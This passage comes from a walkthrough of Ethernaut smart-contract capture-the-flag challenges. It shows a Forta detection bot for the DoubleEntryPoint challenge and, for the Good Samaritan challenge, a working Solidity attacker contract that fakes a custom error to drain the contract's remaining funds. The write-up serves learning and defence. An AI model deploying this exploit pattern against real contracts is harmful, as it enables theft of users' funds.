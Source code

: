 Having identified the exploit, our next step is to write code that generates alerts. Given the calldata passed to the `DoubleEntryPoint`'s `delegateTransfer()` function, we can verify if the sender is the vault itself. This check is crucial because under no normal circumstances would the vault initiate a transfer to `DoubleEntryPoint` on its own.

```sol
contract DoubleEntryPointDetector {
  // ...
  function handleTransaction(address user, bytes calldata msgData) external {
    (address to, uint256 value, address origSender) = abi.decode(msgData[4:], (address, uint256, address));
    if (origSender == vaultAddr) {
      forta.raiseAlert(userAddr);
    }
  }
}
```

### 27. Good Samaritan

The exploit in this challenge is that the contract uses a custom error to check whether wallet balance is enough or not.

```sol
function requestDonation() external returns(bool enoughBalance){
    // donate 10 coins to requester
    try wallet.donate10(msg.sender) {
        return true;
    } catch (bytes memory err) {
        if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
            // send the coins left
            wallet.transferRemainder(msg.sender);
            return false;
        }
    }
}
```
Custom errors that have identical definitions and parameters share the same ABI encoding. This means we can write a contract that throws the same error, and as a result, the challenge contract will transfer its remaining funds to us.

```sol
contract GoodSamaritanAttacker is INotifyable {

  GoodSamaritan samaritan;
  error NotEnoughBalance();

  constructor(address addr) {
    samaritan = GoodSamaritan(addr);
  }

  function attack() external {
    samaritan.requestDonation();
  }

  function notify(uint256 amount) public {
    if (amount == 10) {
      revert NotEnoughBalance();
    }
  }
}
```
